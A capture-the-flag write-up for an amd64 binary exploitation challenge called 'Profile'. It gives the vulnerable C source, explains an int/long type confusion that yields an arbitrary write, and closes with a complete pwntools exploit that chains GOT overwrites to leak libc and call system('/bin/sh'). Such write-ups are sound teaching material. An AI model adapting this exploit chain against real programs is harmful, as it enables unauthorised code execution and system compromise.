 ```yaml
---
title: Profile
author: megachar0x01
date: 2023-10-09
categories: [Pwn, amd64, ctf]
---
```


The variable `age` is declared as an integer, and a long integer is obtained from the user. This means that, as an attacker, we have the capability to overwrite the next 4 bytes in memory. These next 4 bytes correspond to a pointer to a character array. As we examine the code, it becomes apparent that this character pointer is used to store user input. Combining these observations, we possess the ability to write anywhere in memory. 

To begin the attack, we first overwrite the Global Offset Table (GOT) entry for the `free` function with the address of the `main` function. This ensures that the program does not exit, creating a loop. The same process is applied to the `exit` function.

Next, our objective is to leak the value for the Libc library's base address in order to defeat Address Space Layout Randomization (ASLR). It is noted that regardless of the input provided, the program echoes it back. However, the `getline` function ensures that the buffer is null-terminated. Therefore, I identify an offset where the null character is replaced before printing. To achieve this, I replace the GOT entry for `strcspn` with the Procedure Linkage Table (PLT) entry of `puts`. Every time `strcspn` is invoked, the `puts` value will be updated in the GOT table. Subsequently, I write to the `puts` GOT table. When `strcspn` replaces the null character, the program prints the buffer, thereby leaking the `puts` value with respect to the Libc library loaded in memory.

Finally, the remaining steps are straightforward: I replace the `free` GOT table entry with that of the `system` function, and send `/bin/sh` as a string. With this, the shell is obtained. Boom, shell dropped!

## Potection

<img src="https://i.imgur.com/dB8TNrN.png" alt="img_1">

## Vuln Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

struct person_t {
  int id;
  int age;
  char *name;
};

void get_value(const char *msg, void *pval) {
  printf("%s", msg);
  if (scanf("%ld%*c", (long*)pval) != 1)
    exit(1);
}

void get_string(const char *msg, char **pbuf) {
  size_t n;
  printf("%s", msg);
  getline(pbuf, &n, stdin);
  (*pbuf)[strcspn(*pbuf, "\n")] = '\0';
}

int main() {
  struct person_t employee = { 0 };

  employee.id = rand() % 10000;
  get_value("Age: ", &employee.age);
  if (employee.age < 0) {
    puts("[-] Invalid age");
    exit(1);
  }
  get_string("Name: ", &employee.name);
  printf("----------------\n"
         "ID: %04d\n"
         "Name: %s\n"
         "Age: %d\n"
         "----------------\n",
         employee.id, employee.name, employee.age);

  free(employee.name);
  exit(0);
}

__attribute__((constructor))
void setup(void) {
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);
  srand(time(NULL));
}

```


## Exploit

```python
#!/usr/bin/python3
from pwn import *
import struct

# context.terminal = ['tmux','splitw','-h']
os.environ['XDG_CACHE_HOME'] = '/tmp/'

context.log_level = 'error'


info = lambda msg: log.info(msg)
sla = lambda msg, data: io.sendlineafter(msg, data)
sa = lambda msg, data: io.sendafter(msg, data)
sl = lambda data: io.sendline(data)
s = lambda data: io.send(data)

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''

break *get_string+84
break *0x404140

continue
continue
continue
continue
continue
'''.format(**locals())

exe = './bin'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)
libc = elf.libc ; libc_rop = ROP(libc,checksec=False)


io = start()

address = elf.got.free

sla(b"Age: ",str((address << 32) + 1))
sla(b"Name: ",p32(elf.sym.main)[:-1])

address = elf.got.exit

sla(b"Age: ",str((address << 32) + 1))
sla(b"Name: ",p32(elf.sym.main)[:-1])


address = elf.got.strcspn

sla(b"Age: ",str((address << 32) + 1))
sla(b"Name: ",p64(0x401040))

address = elf.got.puts

sla(b"Age: ",str((address << 32) + 1))
sla(b"Name: ",b"")


io.recvuntil(b"Name:")

leak_puts=u64(io.recvline().strip(b"\n")[1:]+b"\x00"*2)

print(f"Leaking Puts Value : {hex(leak_puts)}")

libc.address = leak_puts - libc.sym.puts

address = elf.got.free

sla(b"Age: ",str((address << 32) + 1))
sla(b"Name: ",p64(libc.sym.system))

sla(b"Age: ","1")
sla(b"Name: ",b"/bin/sh")

io.interactive()

```
